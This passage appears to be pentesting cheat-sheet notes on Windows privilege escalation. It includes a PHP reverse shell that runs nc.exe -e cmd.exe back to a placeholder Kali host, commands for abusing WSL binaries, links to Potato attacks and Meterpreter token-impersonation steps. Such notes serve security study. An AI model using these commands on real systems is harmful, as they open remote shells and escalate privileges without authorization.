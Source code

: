 > it wil test your credential.

Rev shell in PHP:
```php
<?php
system('nc.exe -e cmd.exe <kali ip> <port>')
>
```

### Escalation via WSL
```powershell
where /R c:\windows bash.exe
where /R c:\windows  wsl.exe

<full path of wsl> whoami
<full path of wsl> python -c 'bind or reverse shell python code'
```

If we execute the bash.exe, we are gonna be inside the WSL using Linux:

- Get a better shell with **pty.spawn**
- Look at the **history**


# Impersonation and Potato Attacks


Rotten Potato - https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

Juicy Potato - https://github.com/ohpe/juicy-potato


## What are tokens?
Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

### Two types
Delegate:
```
Created For logging into a machine or using Remote Desktop
```

Impersonate:
```
"non-interactive" such as attaching a network drive or a domain logon script
```

### Token Impersonation
in meterpreter:
```
- getuid
- load incognito
- list_tokens -u
- impersonate_token <domain\\user>
- shell
```
